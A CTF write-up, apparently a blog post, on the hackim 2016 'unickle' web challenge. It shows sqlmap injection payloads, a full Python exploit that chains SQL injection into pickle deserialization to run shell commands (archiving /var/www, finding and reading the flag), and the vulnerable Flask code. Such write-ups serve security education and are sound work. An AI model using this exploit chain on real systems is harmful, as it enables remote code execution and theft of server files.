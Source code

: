 ```yaml
---
layout: post
title:  "hackim 2016: unickle (web 200)"
author: f0rki
categories: writeup
---
```


* **Category:** web
* **Points:** 200
* **Description:**
> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get
> rid of the hassle of managing your own storage for object with Osaas. Unickle
> currently offers a beta version that demonstrates how OSaaS will make the
> internet a better place... One object at a time!!

## Write-up

So there isn't much to look at here. It displays some values and you can
restrict the displayed values to a category with the `?cat=X` parameter. After
some fiddling and not getting anywhere I decided to let `sqlmap` loose on the
site.

```
$ python2 sqlmap.py --level=5 --risk=3 --method=get -a \
    -u 'http://54.84.124.93/?cat=2' --output-dir=/tmp/unickle/

sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 7804=7804

    Type: AND/OR time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: cat=2 AND 9875=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: cat=2 UNION ALL SELECT 'qxvqq'||'HuGRpkqXfbsleivzlVQsmTJGEQszicEaMDqmwMEK'||'qbvzq',NULL,NULL,NULL-- -
---

[...]

Table: db_object
[4 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| tcat_id | INTEGER |
| tid     | INTEGER |
| tname   | VARCHAR |
| tvalue  | VARCHAR |
+---------+---------+
```

sqlmap didn't do so well on dumping the actual tables, probably because there
were some non-printable characters in there. At this point I was kind of
annoyed and switched to another challenge. Fortunately a fellow LosFuzzys
member didn't want to realy on sqlmap and did the injection by hand, which
yielded better results. One can abuse the SQL injection by using `?cat=4 union
select ...` as the parameter. We can get the table schema of the `db_object`
table.  This is the table the objects, which are displayed, are selected from.
Let's look at one row of the database.

```
id | name     | value                                                               | cat_id
--------------------------------------------------------------------------------------------
2  | Object 2 | cvulnerableBoxq)q}qXnameqX        Magic Boxqsb. | 2
```

We can see that value has a very strange format and doesn't quite match what we
see as output. So there is apparently some transformation happeing. It turns
out that this is [pickled](https://docs.python.org/2/library/pickle.html) data.
Of course as we know from countless other CTFs, pickle is evil, as it allows
arbitrary code execution as part of the deserialization. So we can use the SQL
injection to get the application to load our input with pickle, which gives us
code execution on the server :) Kindly enough we also get the deserialized
object as string, so we can use `subprocess.check_output` to get the output of
arbitrary commands. I used the following script to exploit the sqli/pickle
vulnerabilities. I used several shellcodes. First using a simple computation to
prove we have code execution. Then I searched for the flag using the `find`
command and read it out using `cat`. I also dumped the whole `/var/www/`
directory just to be sure ;)


```
from __future__ import print_function

import requests
import sys
import pickle
from urllib import unquote

# test shellcode
#SHELLCODE = "42 + 1"
# fetch the whole webserver dir :)
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"tar czf /tmp/src.tgz /var/www/; cat /tmp/src.tgz | base64\", shell=True))"  # NOQA
# find the flag
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"find / -name flag\", shell=True))"  # NOQA
# read the flag
SHELLCODE = "str(__import__(\"subprocess\").check_output(\"cat /var/www/flag\", shell=True))"  # NOQA


class Pwn(object):
    def __reduce__(self):
        return (eval, (SHELLCODE,))


pwn = Pwn()
sc = pickle.dumps(pwn)

if len(sys.argv) == 2 and sys.argv[1] == "--try":
    print("Executing shellcode:")
    print("-------")
    try:
        print(pickle.loads(sc))
    except Exception as e:
        print("exception", repr(e))
    print("\n-------")


print("Sending shellcode:")
print("-------")
print(sc)
print("-------")
sc = sc.replace("'", "\"")  # otherwise the sql query doesn't work
sqlipl = "4 union select 1,2,'{}',1337".format(sc)
print("#### sqli payload is")
print(sqlipl)
resp = requests.get("http://54.84.124.93/", params={"cat": sqlipl})
print("#### URL is")
print(resp.url)
print(unquote(resp.url))
print("#### response -", resp.status_code)
#print(resp.text)
# very dirty parsing ;)
print(resp.text.split("\n")[38].replace("\\n", "\n").strip())
```

The flag was `flag{OSaaS_with_union_and_tickle_trend_it_is!}`

The whole thing was a flask application and the vulnerable code is this:
```
@application.route("/", methods=['GET'])
def index():
  sql = "SELECT * FROM db_object"
  if request.args != [] and request.args.get('cat') != None:
    sql = "SELECT * FROM db_object where cat_id="+request.args.get('cat')  # SQL injection here
  result = db.engine.execute(sql)
  objects = []
  for row in result:
    val = row[2]
    if row[2]!= None:
      try:
        print(row[2])
        val = pickle.loads(row[2].encode(encoding='ISO-8859-1'))           # pickle deserialization vulnerability here
      except Exception as e:
        val = e
    objects.append([row[0],row[1],val,row[3]])
  return render_template('index.html', objects=objects)
```
